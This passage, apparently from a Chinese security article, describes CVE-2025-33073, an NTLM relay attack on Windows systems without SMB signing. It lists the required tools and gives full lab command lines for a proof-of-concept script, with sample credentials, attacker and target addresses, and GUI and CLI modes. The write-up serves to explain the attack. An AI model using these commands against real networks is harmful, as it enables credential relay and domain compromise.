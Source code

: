 - 影响广泛  
：作用于所有未启用 SMB 签名的 Windows 10/11 及 Server 系统；  
  
- 绕过现有防护  
：可绕过 Windows 默认的 NTLM 中继防护和部分 EFSRPC 加固。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpSFRQ0ia6RwEdLbSgCR19c1nibEzMqE9tdoNzI3lTqn6FODPyNnJXhksw/640?wx_fmt=png&from=appmsg "")  
  
三、漏洞利用流程及命令示例  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jvjqp3Onh5HSj7mial4F6yAKfx5C18X3xpayzerwxFqNId2siclwCAMW1xkiaJdyA6icoWpjaqUcCH5YIwjTAPVNJQ/640?from=appmsg "")  
  
  
  
漏洞利用可分为以下几步，配合下列命令即可快速在 Kali Linux 环境中完成演示：  
  
准备环境  
  
安装依赖：  
impacket-ntlmrelayx  
、  
dnstool.py  
（仓库自带）、  
NetExec (NXC)  
 等。  
  
确保  
 Kali 上已有 Pytho  
n3、xterm 等工具。  
  
GUI 演示模式  

```
python3 CVE-2025-33073.py \
  -u 'wintastic.local\mathijs' \
  -p 'password' \
  --attacker-ip 192.168.178.49 \
  --dns-ip 192.168.178.138 \
  --dc-fqdn DC01.wintastic.local \
  --target CLIENT01.wintastic.local \
  --target-ip 192.168.178.65


```

  

```
  该模式会自动在 xterm 中展示 DNS 注册、中继监听、RPC 强制调用等各阶段交互窗口。
```

  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpDQF14t2tgs7GibDuzviaXf1Yyt1RSibE9LqK8Dkd7HDJkFOLcuO8QcgYg/640?wx_fmt=other&from=appmsg "")  
  
CLI 纯命令模式  

```
python3 CVE-2025-33073.py \
  -u 'wintastic.local\mathijs' \
  -p 'password' \
  --attacker-ip 192.168.178.49 \
  --dns-ip 192.168.178.138 \
  --dc-fqdn DC01.wintastic.local \
  --target CLIENT01.wintastic.local \
  --target-ip 192.168.178.65 \
  --cli-only
  
```
